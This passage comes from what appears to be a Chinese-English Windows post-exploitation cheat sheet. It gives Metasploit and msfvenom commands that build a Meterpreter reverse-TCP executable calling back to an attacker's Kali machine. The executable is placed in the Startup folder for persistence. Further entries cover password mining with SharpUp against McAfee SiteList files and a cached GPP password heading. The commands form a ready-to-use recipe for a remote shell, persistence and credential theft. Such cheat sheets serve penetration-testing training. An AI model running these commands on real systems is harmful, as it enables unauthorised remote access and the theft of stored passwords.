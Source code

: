 域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

In Metasploit (msf > prompt) 输入: `use multi/handler`

In Metasploit (msf > prompt) 输入: `set payload windows/meterpreter/reverse_[tcp](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=3&q=tcp&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiJ0Y3AiLCJ6aGlkYV9zb3VyY2UiOiJlbnRpdHkiLCJjb250ZW50X2lkIjoyMzY2MjM2MDAsImNvbnRlbnRfdHlwZSI6IkFydGljbGUiLCJtYXRjaF9vcmRlciI6MywiemRfdG9rZW4iOm51bGx9.mKYpJP7vQusIVLkLK8Xm0Mhz2UN6i--N-EzlRBg-Npw&zhida_source=entity)`

In Metasploit (msf > prompt) 输入: `set lhost [Kali VM IP Address]`

In Metasploit (msf > prompt) 输入: `run`

打开另一个命令提示符并键入:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe`

2.

`将 x.exe 放在“C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.`

### **Password Mining in McAfeeSitelistFiles**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

`SharpUp.exe McAfeeSitelistFiles`

  

批注：[https://github.com/GhostPack/SharpUp](https://link.zhihu.com/?target=https%3A//github.com/GhostPack/SharpUp)

### **Password Mining in CachedGPPPassword**

域名: Y/N

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

